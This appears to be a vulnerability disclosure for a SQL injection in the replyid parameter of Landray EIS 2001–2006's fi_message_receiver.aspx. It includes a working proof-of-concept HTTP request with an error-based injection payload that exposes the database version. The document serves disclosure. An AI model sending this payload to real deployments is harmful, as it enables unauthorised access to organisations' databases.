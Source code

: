 
## PRODUCT

landray EIS

## Vendor of Product

https://www.landray.com.cn/

## VERSION

EIS 2001-2006

## Vulnerability Type

SQL injection

## Description
Vulnerabilities classified as fatal have been found in Landray EIS 2001 through 2006. This vulnerability affects the component API interface file/Message/fi_message_receiver.aspx? replyid parameter of replyid. Manipulation on the replyid parameter causes SQL injection



## POC：
```
GET /Message/fi_message_receiver.aspx?replyid=1%20and%201=@@version--+ HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: Lang=zh-cn; ASP.NET_SessionId=hrqq2u554a1zlurqqbuegun0
Connection: keep-alive
```
![image](https://github.com/user-attachments/assets/4bc382b9-355d-434a-8e7e-346e27eb379e)


official website
https://www.landray.com.cn/



